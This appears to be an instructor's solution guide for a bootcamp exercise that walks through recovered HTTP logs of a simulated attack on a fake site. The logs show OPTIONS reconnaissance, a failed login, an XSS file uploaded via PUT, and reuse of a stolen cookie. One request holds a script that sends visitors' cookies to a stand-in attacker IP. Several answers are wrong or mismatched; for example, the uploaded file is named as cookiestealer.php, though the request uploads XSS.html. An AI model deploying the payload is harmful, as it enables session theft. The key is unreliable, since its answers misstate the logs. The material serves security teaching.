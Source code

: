 ## Solution Guide: HTTP Requests and Responses

The goal of this activity was to combine skills in research and critical thinking to investigate the HTTP sequences of a web attack that occurred on your company's servers.

---

**Note:** While we can't be absolutely sure about what happened due to the corrupted logs, these are good guesses based on the information we have.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.


   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

    **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

    - Solution: They used the OPTIONS method here. This was the attacker's reconnaissance phase, where they found out all available HTTP methods that can be requested to the HTTP server.

   **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

   - Solution: The OPTIONS method is useful for an attacker to find out what kind of request methods they can leverage while attempting to compromise an HTTP server.

2. The system admins reported some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

    **Questions:** 
      - What status code was returned in this response?

        - Solution: 401.

      - According to the response body, what kind of method was used to generate this HTTP response?

        - Solution: While we don't see the request, we can tell the attacker attempted to log into the login portal with a POST request.

     - What sort of information was input to this HTTP request?

         - Solution: The response body shows a username and password being entered into the web page. The response error status code 401 indicates an invalid authorization attempt.

    **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

    - Solution:  While we can't see the request, we can tell the attacker attempted to log into the login portal with a POST request. The response body shows a username and password being entered into the webpage while the the response error status code 401 indicates an invalid authorization attempt.

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
         - Solution: The attacker used the PUT method.

      - What file name was uploaded to the site, according to the request body?
        - Solution: `cookiestealer.php`.

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      
        **Hint**: Google the term "XSS" if you need help.

        - Solution: The attacker could not inject XSS code without uploading a file with it.
    
      - How did the server respond?

        - Solution: The attacker used the PUT method to upload a cross-site script to steal the cookies of users and send the cookies to their own server.

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request?
    
    - Solution: Based on the HTTP Response 3,  the attacker was able to obtain a victims cookie and use it in a subsequent request.

    **Analysis:** Is there anything interesting about the URL requested?
    
    - Solution: Looking at HTTP Request 4, it's clear that the attacker stole a cookie and was able to log into the admin portal using a GET request with stolen cookies set in the header.

--- 
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

